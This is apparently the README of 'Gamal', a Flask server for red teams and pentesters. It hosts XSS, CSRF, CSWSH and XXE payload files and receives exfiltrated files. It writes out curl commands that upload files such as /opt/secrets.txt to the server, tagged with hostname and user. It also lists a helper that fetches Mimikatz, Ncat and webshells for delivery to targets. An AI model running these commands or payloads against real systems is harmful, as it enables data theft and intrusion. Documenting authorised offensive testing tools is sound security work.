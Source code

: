 # Gamal

A tiny flask app for helping red-teamers, purple teamers, and pentesters in delivery, data exfiltration, and some attacks (SSRF, XXE, XSS, Session Hijacking, Session Riding).

## Install & usage

```bash
cd /opt
git clone github.com/Fadavvi/Gamal
cd Gamal
sudo apt install python3-flask #or python3 -m pip install flask
python3 gamal.py
```  

Default configuration: IP binding: `0.0.0.0`, Port: `1337`, Log: `gamal.log`, Canary-String: `booqbooqGamal`

or

`python3 gamal.py --ip <IPADDR> --port <PORTNUM> --log <LOGPATH> --canary <YourCanaryString> [--cert <FullChain> --key <PrivateKey>]`

Then you can use your IP & Port in your payloads.

***Note:*** Add your files in `/f` folder ==>  `http://IP:PORT/f/<Your-FileName>`

## Paylods

`/f/xss.js` XSS Sample function

`/f/CORS.html` CORS sample script

`/f/CSRF.html` CSRF sample page

`/f/CSWSH.html` Cross-Site WebSocket Hijacking (CSWSH) script

`/f/meta.jpg` XSS in Meta-data

`/f/EBXXE.dtd` XXE .dtd sample file

`/f/xxe1.svg` and `/f/xxe2.svg` XXE in SVG file

## Data exfiltration

### Linux / MacOS

`curl -k -F "file=@<PathToYourFile>" https://<GamalIP>:<GamalPort>/e/upload`

### Windows

`Remove-Item alias:curl -ErrorAction SilentlyContinue; curl -k -F "file=@C:\<PathToYourFile>" https://<GamalIP>:<GamalPort>/e/upload`

### Special Parameters

If you use `user` and `host` parameters in the upload URL, they will be used in the file name. It'll help you identify the owner of the files more easily. Example:

```bash
 curl -k -F "file=/opt/secrets.txt" "https://127.0.0.1:1337/e/upload?host=$(hostname)&user=$(id -un)"
```

outputfile:

`received/{host}/{user}--{request.remote_addr}-{RealFileName}`

## Gamal helper script (additional tools)

It downloads and categorizes the most common tools for delivering to the targets (Windows / Linux / macOS)

- [Mimikatz](https://github.com/gentilkiwi/mimikatz/)
- [SharpCollection](https://github.com/Flangvik/SharpCollection/) -- Read the README file before you use it in your operations.
- [Ligolo-ng](https://github.com/nicocha30/ligolo-ng/) -- agent and proxy
- [PEASS-ng](https://github.com/peass-ng/PEASS-ng/)
- [AzureHound](https://github.com/SpecterOps/AzureHound)
- [Traitor](https://github.com/liamg/traitor)
- [Ncat](https://nmap.org/ncat/)
- Basic webshells (asp / aspx / jsp / php)

## Disclaimer

 This tool is intended for use only in a legal and legitimate manner. Unfortunately, there is no way to build offensive tools useful to the legitimate infosec industry while simultaneously preventing malicious actors from abusing them.


## To do

- [ ] DNS exfiltration capability
- [ ] ICMP exfiltration capability
- [ ] Improving the logging format
- [ ] Adding more tools to the helper script
